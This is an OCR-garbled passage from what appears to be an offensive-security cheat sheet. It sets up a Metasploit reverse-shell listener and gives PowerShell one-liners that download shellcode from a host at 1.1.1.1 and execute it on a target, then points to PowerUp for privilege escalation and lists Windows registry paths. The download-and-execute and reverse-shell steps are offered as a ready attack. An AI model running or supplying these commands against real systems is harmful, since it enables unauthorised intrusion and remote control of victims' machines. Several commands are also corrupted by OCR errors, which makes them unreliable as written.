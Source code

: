 ### Start the listener in the attacking system

```text
1. ./msfconsole
2. use exploit/multi/handler
3. set payload windows/meterpreter/reverse tcp
4. set LHOST 1.1.1.1
5. set LPORT 8080
6. exploit -j
```

### In the target system \(1: download the shell code, 2: execute\)

```text
1. c: \ powershell -noprofile -noninteracti ve -command " &
     {$client=new-object
     System.Net.WebClient; $client.DownloadFile('http://1.1.1.1/shell.txt
     ', 'c:\windows\temp\shell.txt') )"
2. c: \ powershell -noprofile -noninteracti ve -noexi t -command " &
     {$crnd~tjpe 'c:\windows\temp\shell.txt';powershell -noprofilenoninteractive
     -noexit -encodedCornmand $cmd} "
PROFIT
```

### Identification of vulnerable domains with powerup

```text
https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1
. .\PowerUp.ps1
```

## Windows registry

### operating system information

```text
HKLM\Software\Microsoft\Windows NT\CurrentVersion
```

### Product Name

```text
HKLM\Software\Microsoft\Windows NT\CurrentVersion /v
ProductNarne
```

### Installation Date

```text
HKLM\Software\Microsoft\Windows NT\CurrentVersion /v InstallDate
```

### registered name
